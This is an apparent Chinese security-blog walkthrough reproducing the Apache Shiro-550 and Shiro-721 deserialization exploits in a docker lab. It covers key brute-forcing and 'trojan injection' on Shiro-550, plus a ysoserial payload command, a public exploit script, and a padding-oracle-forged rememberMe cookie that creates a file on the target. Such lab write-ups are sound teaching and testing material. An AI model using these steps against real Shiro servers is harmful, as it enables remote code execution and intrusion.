

[一、Shiro简介](https://www.freebuf.com/vuls/382841.html)
=====================================================

2023-11-04 22:48:40共 10020 字阅读需 40.5 分钟

> Shiro550、Shiro721

Apache Shiro是一个强大且易用的**Java安全框架****,**能够用于身份验证、授权、加密和会话管理。Shiro拥有易于理解的API,您可以快速、轻松地获得任何应用程序——从最小的移动应用程序到最大的网络和企业应用程序。

二、环境准备
======

```
靶机IP地址：192.168.200.47
攻击机IP地址：192.168.200.14
```

Shiro-550反序列化漏洞（CVE-2016-4437）
==============================

漏洞原理
----

加密密钥是硬编码在shiro源码中的，任何有权访问的源码的人都能够知道默认密钥，于是攻击者创建一个也已对象，对其进行序列化，base64编码，AES加密，然后将其作为cookie的remember的字段进行发送，shiro会对其进行反序列化，然后进行base64解码，AES解密，以及反序列化，让服务器运行恶意代码。

漏洞复现
----

1、访问靶机地址
--------


存在Remember me选项，利用burp抓包


2、利用工具对目标网站爆出keys值
------------------

利用工具爆破密钥


利用脚本同样也可以爆破出密钥


3、然后将key添加到工具中进行爆破
------------------


4、爆破密钥成功后，即进行远程执行命令
-------------------


注入木马


Shiro-721反序列化漏洞（CVE-2019-12422）
===============================

漏洞原理
----

由于shiro550的补丁不再把秘钥写死，所以目前无法获得秘钥（系统随机生成），只能研究算法和源码，在不知道秘钥的前提下，构造出之前那样的序列化数据（需要使用登录后的rememberMe Cookie，进行下一步攻击）

漏洞复现
----

### 1、拉取环境

```
docker pull vulfocus/shiro-721
 docker run -d -p 8080:8080 vulfocus/shiro-721
```


当前运行镜像


访问地址：192.168.200.47:8080


根据提示信息， Shiro 测试账户登录，勾选Remember Me：


登陆后，抓取此页面下的数据包


### 2、BURP攻击

在正常序列化数据（需要一个已知的用户凭证获取正常序列化数据）后利用 Padding Oracle 构造我们自己的数据（Java序列化数据后的脏数据不影响反序列化结果），此时会有两中情况:

1.  构造的数据**不能通过字符填充验证**，返回deleteme;
2.  构造的数据**能成功解密通过字符填充验证，**之后数据可以正常反序列化，不返回deleteme的cookie.

（1）输入提示页的正确的账户和密码的样例，http响应页面中不会显示deleteMe的cookie:


### 3、使用Java反序列化工具 ysoserial 生成 Payload

使用ysoserial生成创建/tmp/test的payload，前提是环境中存在可利用的链

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/666" > payload.class
```



### 4、利用EXP

附上exp链接：（这位大佬我的能成，别的exp成不了）

```
https://github.com/wuppp/shiro_rce_exp
```

### 5、通过 Padding Oracle Attack 生成Rememberme cookie

此EXP生成的payload.class内容时间较长（约一个小时），尽量选择较短的命令执行来复现漏洞。

python shiro\_exploit.py http://192.168.200.14:8080/account/ cVuSfjWh0LVEw+V1AZocf2UJuZQcqrWwBblOPvg2zh6UJoAncGJ6vD+lT73HH/QmWiimls4ELFow5DpmPVvlJ4Xt7T3xKyyymLazfTeCwHNPI0Skisi+1gLsYIAH5SM3drclXiy7AHzSYmdcKhlYFDRm+sNKHjEtartFW8P5CsYrEpHKYfBhdq9vumWv1L7P17rlSi9reKrmXFKrsOtYvxBY4iGMp7ZWG0brCc3PRp6T/CKoZUqelTxnExtCjhZt1SXodLVfdTo9GiqEvgT1fIFmVbRHLjSvPfjIDIYncHGwY7IvdcghHSP/CncwY9zIU3RzQrlpPplJQF7KmIzZ1HJbSFqJ+ufjRRpWVvEgbzEAkemtUgtYI6iNJSkTnv5GJ3VDpHbJJC1voU9XP5Ed3hPMlwD6sH3CIEV67hDrXBGOa3lGaIqO5m3Wd99bg0yY67J4lvJUVYqBek9xCF/4W+VY5+TxGf6xx6kROunqztWeZpGCk8G3DVE9hf/8FMdN payload.class


生成如下rememberMe cookies内容

rememberMe cookies:

Sr3FrVSmz48Tz+k5ZQxUbvAoyEOxk73bEOKUZgvK/W4U8sTEwzhUiU5YwS5HLZb5qe40REONqDBiDxiDz53NCLz7Xz57yorDiuvzRzfosivcjVjhSBfqcRGGRzEoaUGoI7LDb1Cn9pJIz/1xoyL5AcX05T2tfOwpY9u1crUWM28Xh5bY+Us50UQe7mrrDRAhefjETO7VudSkBpf7+KPVmbvPilkMuF153B/YjoAs1qQPDv2bBfS+H9BxILf4vRbhWmVLZnq/mj0t4d3MPhLV6vrtGCp0OjLFvDkPz5MlEk1uAlJjM5YZebvFR2Akei7YI4Xz0pWBs1j7cvq6f5J++ysiPC/lHtWgTY7WLcTTxxJXcGOGPT9N4KZAwpqCjQQbgm4fWGxaci778eWkTWbxqRS7nmfy/UX4P1trwloHdJhB69Pu7qorHUalpDR0YcWbiBc/VuAvOhoutKCW0LjQOjKyJsGj/6nMKTJ98ZG2sG52R5OHp7ELaB7BK+xn4v8e7KNlcCq41VMQyz++qFtDCvSB8kCfgPETF39eEVB4s2ZLwr0OQBViaeszAUIsJjCkaxYADnlt2Sy9wQ8OwSx05VdcuCWjD1q+WjWFePOoQIAxCQiJmHN8G+f609Hj4GlmNYDGsOVIl7J+JWt2ri4HEICHxeflP6e+ALb/UEYGxvRHs11VCNf35usHwyxEFD3VKGFYZ86StRK7czORGSv6jRBjOu3LsWfoHEEElQRQ8CZpSfaPahuKhrkZeVKpQ+14tllU6NtPrM64ytCTr0kXlcLJCAZF8YEy6/iYwFyVVbymNrUoE1nAF3RgzZU8WMvy/yJzFQZm87Lod50r66EC+Y2BANo2rGmo02gQIif/M8SHWXakKp6hnO9iTK37JuSRp4XakH2HubjsfvZtN8KNaAGKIGAxCMRt8w4/duMZHKrKnmoxd9CiGUHjbgj1oP29Fz3OHnqah7sZjHbAw5QZuh+6pgbkb+U9WikFQjISbsJzBm+3MRt0hN2rnbjMvBJmo6Z+FuUZYQNmLo93pDflsYhvYaKcL8Ji3KIcU1v/zC4shbe2WS1CojtV9fNAnJ8rO9cHXC4pfGkbIe1ZLckSS3JWwMtC34X+D+JVuNl6v+03sWvAjCIEoOxL5s0+kqq7QD0B9te7n47UqaAoyH6Ok6O+sTz21zp8W2oDg6iCiWA3njB3ZKp9WhPNgT1qiJcwPcH1mDFJZtMkfBcDFeOQXBr1X253IZImsPC0LkKJZBI2dkgysy0jnLs5gKa9cebfZyJQkRQuFtpa7obu+Fs40ICStzuKoIm7dtZO6Yo6dxRTNWDbZYopt53YcvtSiXVjoi3XR7Qymlm01BHLgzZvF17ANT9H5KXgjfM6Ct6xjFEfHUl+DxevS/GOeSwOzCeoBN5n9UvjopnGoZGrnRw/XaeU+3UpFb+kRI4pr60vm/J9u2KSYrvLSr573vQ7j438J9GSP9yQ0x4XeRKz6PpM4ntaqwPt8gKSPKnVkAeUPb6ocDD1O6lhg3FurZ7WgB3qj90pVzStXRzHDeTkbOCgAZzxOwoH8TuA0TkW3NVSVg1OMAspYhGDiOtFznnOc3ES8D5KzPyThas0eGvrmzPGpWLtK1cfrZEwgmndJFoK3f1rV7Y2FghM56Zl9xhFodS4Cjv9HgzRsBIMtrF57pbftvvBOoBNRvkg2WLMK2+ruzD90dNHypvBTlmyMWFVSeGGWYkeeNgCAzrWF/LpkTSfxCRwe0dhUkFXEYlYksTWZgmWU4haiIifz7+dpm/tME/BZhzbIVRYwraYYydyN34ODw/RJN+LSsL0XRFb0xPWjuIEn4Cselz1XOt/XO0D5G2NZ8vjVBp0mArwp4GtN6ISvgAAAAAAAAAAAAAAAAAAAAA=


6、将跑出来的Cookie添加到数据包中进行重放数据包，然后靶机中成果创建了对应的文件666

查看当前docker正在运行的环境，记录此ID号


进入docker环境。查看已经创建的666文件

```
docker exec -it 42c617e14be1 /bin/bash  # 利用此命令进入docker环境
```


可能出现的问题和解决办法：
=============

1、运行Shiro\_Exp时出现错误No module named 'Crypto：

```
pip uninstall crypto pycryptodome
pip install pycryptodome
```

vuls

渗透测试

web安全